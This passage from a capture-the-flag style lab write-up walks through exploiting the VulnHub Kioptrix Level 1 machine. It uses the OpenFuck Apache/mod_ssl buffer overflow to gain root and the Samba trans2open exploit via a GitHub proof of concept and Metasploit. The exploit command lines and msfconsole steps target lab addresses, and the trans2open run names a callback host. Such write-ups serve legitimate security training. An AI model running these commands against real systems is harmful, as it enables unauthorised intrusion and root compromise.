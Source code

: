 ![Apache Exploit 2|450](images/vulnhub-kioptrix-lvl1/apache-exploit-2.png)

On running the exploit we are presented with a usage menu with a list from which an offset to cause the buffer overflow needs to be selected. From our enumeration, we know that the target is using RedHat Linux.

![Apache Exploit 3|400](images/vulnhub-kioptrix-lvl1/apache-exploit-3.png)

Scrolling through the list we find two offsets that match the targets OS and version of Apache. The `0x6a` offset does not seem to work on the target.

```bash
./OpenFuck 0x6b 10.0.2.22 -c 40
```

![Apache Exploit|500](images/vulnhub-kioptrix-lvl1/apache-exploit.png)

By using the `0x6b` offset we can cause a  buffer overflow and gain root access to the system. 

> [!NOTE] 
> Metasploit also contains the `OpenFuck` exploit but similar to the code found online it does not work anymore.

### Exploiting Samba

For the version of Samba that is running on the target an exploit called `trans2open` was found. 

[GitHub - KernelPan1k/trans2open-CVE-2003-0201: Samba exploit CVE2003-0201](https://github.com/KernelPan1k/trans2open-CVE-2003-0201)

For the exploit to work the target needs to allow anonymous access to the IPC$ share. This was confirmed during the enumeration stage. Since this is also a C code it needs to be compiled after download. I could not get the C code to work. No matter how many times I run the code it would always fail.

```bash
./trans2open 0 10.0.2.22 10.0.2.15
```

![Samba Exploit 1|440](images/vulnhub-kioptrix-lvl1/samba-exploit-1.png)

Metasploit also has a `trans2open` exploit. This exploit is written in Ruby.

```bash
msfconsole

# Metasploit Commands
search trans2open
use 1
show options
set RHOSTS 10.0.2.22
exploit
```

![Samba Exploit 2](images/vulnhub-kioptrix-lvl1/samba-exploit-2.png)
